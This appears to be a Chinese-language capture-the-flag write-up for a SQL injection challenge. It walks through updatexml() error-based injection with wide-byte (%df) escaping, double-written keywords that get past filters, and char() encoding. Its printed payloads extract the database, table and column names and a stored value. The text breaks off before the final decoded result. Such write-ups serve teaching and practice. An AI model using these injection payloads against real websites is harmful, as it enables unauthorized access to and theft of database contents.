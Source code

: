 解决方案大概有`updatexml()`报错注入、`floor()`报错注入、布尔盲注等等办法
题中过滤了union、select、where等关键字，双写就可以绕过。

##### `updatexml()`报错注入原理：
>updatexml (XML_document, XPath_string, new_value);

`updatexml()`函数的第二个参数为`XPath_string`，但是我们将`concat()`作为第二个参数传给`updatexml()`函数时，`concat()`返回类型为字符串所以不满足`XPath_string`格式，返回`XPath syntax error`，进而爆出数据库信息。

<1> 数据库名
>name=admin%df' and updatexml(1,concat(1,database()),1) --+&pw=123

得到数据库名为`web_sqli`

![avatar](https://k1ng0fic3.github.io/images/sql12.png)

注意：一般的exp都是`concat()`拼接上一个字符'`~`'，编码为`0x7e`，本题fuzz发现hex被过滤了，所以`concat()`里直接拼个1算了，本题中没有影响。
加'`~`'是因为`updatexml()`会报错字母和特殊字符之后的内容，所以手工补上一个特殊字符'`~`'

![avatar](https://k1ng0fic3.github.io/images/sql13.png)

<2> 表名
>name=admin%df' and updatexml(1,concat(1, (sselectelect group_concat(table_name) from information_schema.tables whwhereere table_schema=database() limit 0,1)),1) --+&pw=123

得到f14g,user两个表。

![avatar](https://k1ng0fic3.github.io/images/sql14.png)

<3> 列名
>name=admin%df' and updatexml(1,concat(1, (seselectlect group_concat(column_name) from information_schema.columns  wherwheree TABLE_SCHEMA=database() and TABLE_NAME=f14g)),1) --+&pw=123

注意：表名`f14g`需要编码后请求，否则会返回`Error: Unknown column 'f14g' in 'where clause'`错误。本题目ban掉了hex，但是可以用`char()`编码实现。
更正为：
>name=admin%df' and updatexml(1,concat(1, (seselectlect group_concat(column_name) from information_schema.columns  wherwheree TABLE_SCHEMA=database() and TABLE_NAME=char(102,49,52,103))),1) --+&pw=123

得到：

![avatar](https://k1ng0fic3.github.io/images/sql15.png)

附：其实如果没有想起来`char()`编码，不指定`f14g`直接`where table_schema=database()`查所有字段，得到的也是上图结果。

图中的`b80bb7740288fda1f201890375a60c8f`是`id`的MD5值，试着查了一下，也都是数字。
那么盲猜表里有一个`flag`的列，`flag`的MD5值为`327a6c4304ad5938eaf0efb6cc3e53dc`

<4> 字段
>name=admin%df' and updatexml(1,concat(1, (seleselectct concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 0,1),1),1) --+ &pw=123

![avatar](https://k1ng0fic3.github.io/images/sql16.png)

对`VGhlIGZpcnN0IG1hbiBuYW1lIHdhcyBr`解base64得：
